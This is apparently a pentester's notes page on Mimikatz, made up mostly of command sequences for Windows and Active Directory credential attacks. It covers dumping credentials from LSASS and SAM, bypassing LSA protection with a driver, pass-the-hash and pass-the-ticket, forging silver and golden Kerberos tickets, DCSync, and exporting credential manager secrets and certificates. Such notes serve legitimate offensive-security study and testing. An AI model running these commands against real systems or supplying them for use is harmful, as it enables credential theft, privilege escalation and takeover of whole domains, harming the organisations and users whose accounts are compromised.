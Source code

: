 # Mimikatz
Used in Post Privilege Esculation in maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]. Mimikatz is used to dump credentials:
- From windows protect memory (LSASS) and activity directory domain controller database
- Kerberos tickets
	- For all users
	- For current users
- Credential Injection
- Generate Silver/Golden tickets
	- [[Pass-The-Hash]]
	- [[Pass-The-Ticket]]
- And more

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. [[AD-Credential-Harvesting]]
`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 0`

```powershell
privilege::debug
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```


```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### Extracting NTLM hashes from local SAM

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Extracting NTLM hashes from LSASS memory

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
sekurlsa::msv
```
These hashes can be used to perform [[Pass-The-Hash]] attacks by using `mimikatz` to inject an access token for the vicitim user on any command!
```powershell
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```

## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Authenication-Defined]]. It is credential base so understanding [[Active-Directory-Authentication]] in part for [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

Sometimes extraction of Kerberos tickets and sessions keys from LSASS memory with Mimikatz, requiring also SYSTEM privileges:
```powershell
privilege::debug
!+ # LSA protection bypass!
sekurlsa::tickets /export
```
Extract a desired ticket and inject the tickets into the current session, which doesn't require administrator privileges:
```powershell
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-$DOMAIN.kirbi
```
Use `klist` to list Kerberos tickets.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /inject /name:krbtgt
```

With Domain Admin group access:
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /patch
# Look for krbtgt
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. 
Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`, then open command prompt with elevated privileges `misc::cmd`.

```powershell 
kerberos::purge # Removed cached tickets
kerberos::golden /user:hacker /domain:$domainname.com /sid:$sid /krbtgt:$krbtgt-hash /ptt 
misc::cmd
```

Mimikatz provides two sets of default values when using the golden ticket option:
1. User IP - default set: 500, RID of builtin Administrator
2. Group IP - Domain Admins group

### DCSync Attacks
Visit [[Active-Directory-Persistence]] for details.

```powershell
!+ # LSA protection bypass!
lsadump::dcsync /user:Administrator
```

## Credential Manager

```powershell
privilege::debug
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
sekurlsa::credman
```


## Certification Persistence

```powershell
# View CA Certificate on the DC 
crypto::certificates /systemstore:local_machine


privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
```